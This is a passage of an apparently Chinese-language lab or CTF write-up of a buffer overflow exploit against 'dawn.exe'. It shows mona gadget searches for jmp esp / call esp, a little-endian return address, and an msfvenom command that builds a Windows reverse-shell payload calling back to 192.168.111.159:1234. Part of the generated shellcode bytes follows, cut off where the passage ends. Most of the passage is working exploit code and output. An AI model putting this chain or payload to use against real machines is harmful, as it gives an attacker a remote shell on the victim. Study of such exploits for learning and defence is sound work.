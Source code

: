     但是有其他替换的指令
    
    ```c
    !mona find -s "\xff\xe4" -m "dawn.exe" #jmp esp
    !mona find -s "\x54\xc3" -m "dawn.exe" #PUSH ESP; RET
    !mona find -s "\xff\xd4" -m "dawn.exe" #CALL ESP
    ```
    
    ![image.png](image%20118.png)
    
    获得地址`34581777` ，因为小端显示的原因要逆转，那么就是`\x77\x17\x58\x34`
    

## 插入shellcode

1. 使用`msfvenom`生成`shellcode`
    
    ```c
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.111.159 LPORT=1234 -b "\x00" -f python
    Found 11 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 351 (iteration=0)
    x86/shikata_ga_nai chosen with final size 351
    Payload size: 351 bytes
    Final size of python file: 1745 bytes
    buf =  b""
    buf += b"\xbb\x49\x78\x0e\x0a\xdb\xda\xd9\x74\x24\xf4\x5e"
    buf += b"\x33\xc9\xb1\x52\x31\x5e\x12\x83\xee\xfc\x03\x17"
    buf += b"\x76\xec\xff\x5b\x6e\x72\xff\xa3\x6f\x13\x89\x46"
    buf += b"\x5e\x13\xed\x03\xf1\xa3\x65\x41\xfe\x48\x2b\x71"
    buf += b"\x75\x3c\xe4\x76\x3e\x8b\xd2\xb9\xbf\xa0\x27\xd8"
    buf += b"\x43\xbb\x7b\x3a\x7d\x74\x8e\x3b\xba\x69\x63\x69"
    buf += b"\x13\xe5\xd6\x9d\x10\xb3\xea\x16\x6a\x55\x6b\xcb"
    buf += b"\x3b\x54\x5a\x5a\x37\x0f\x7c\x5d\x94\x3b\x35\x45"
    buf += b"\xf9\x06\x8f\xfe\xc9\xfd\x0e\xd6\x03\xfd\xbd\x17"
    buf += b"\xac\x0c\xbf\x50\x0b\xef\xca\xa8\x6f\x92\xcc\x6f"
    buf += b"\x0d\x48\x58\x6b\xb5\x1b\xfa\x57\x47\xcf\x9d\x1c"
    buf += b"\x4b\xa4\xea\x7a\x48\x3b\x3e\xf1\x74\xb0\xc1\xd5"
    buf += b"\xfc\x82\xe5\xf1\xa5\x51\x87\xa0\x03\x37\xb8\xb2"
    buf += b"\xeb\xe8\x1c\xb9\x06\xfc\x2c\xe0\x4e\x31\x1d\x1a"
    buf += b"\x8f\x5d\x16\x69\xbd\xc2\x8c\xe5\x8d\x8b\x0a\xf2"
    buf += b"\xf2\xa1\xeb\x6c\x0d\x4a\x0c\xa5\xca\x1e\x5c\xdd"
    buf += b"\xfb\x1e\x37\x1d\x03\xcb\x98\x4d\xab\xa4\x58\x3d"
    buf += b"\x0b\x15\x31\x57\x84\x4a\x21\x58\x4e\xe3\xc8\xa3"